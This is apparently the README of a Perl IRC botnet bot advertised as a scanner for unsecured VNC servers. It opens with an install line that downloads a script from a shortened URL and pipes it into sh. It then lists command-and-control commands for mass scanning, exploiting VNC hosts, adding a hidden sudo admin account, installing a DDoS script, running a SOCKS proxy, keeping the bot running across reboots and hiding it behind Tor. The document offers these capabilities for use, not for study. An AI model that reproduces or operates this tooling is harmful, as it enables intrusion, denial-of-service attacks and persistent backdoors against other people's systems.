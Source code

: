 This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.

# ---INSTALLATION---

wget https://is.gd/perlvncbot && sh perlvncbot

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 
# This installs ddos.py on the root account
@.ddos
# This blocks botnets from scanning your bots
@.blocknoobs
# This resets the iptables firewall to initial state and deletes all the rules that were made to it
@.fwreset
# This runs a socks5 server on port 1080
@.socks
# This updates the autorun of the bot on boot 
@.autorun
# This installs a xfce4 remote desktop on a random port accessible by your browser (tested working on debian)
@.novnc
# This installs proxychains and tor socks and hides the bot behind a tor node before connecting your server
@.cloak
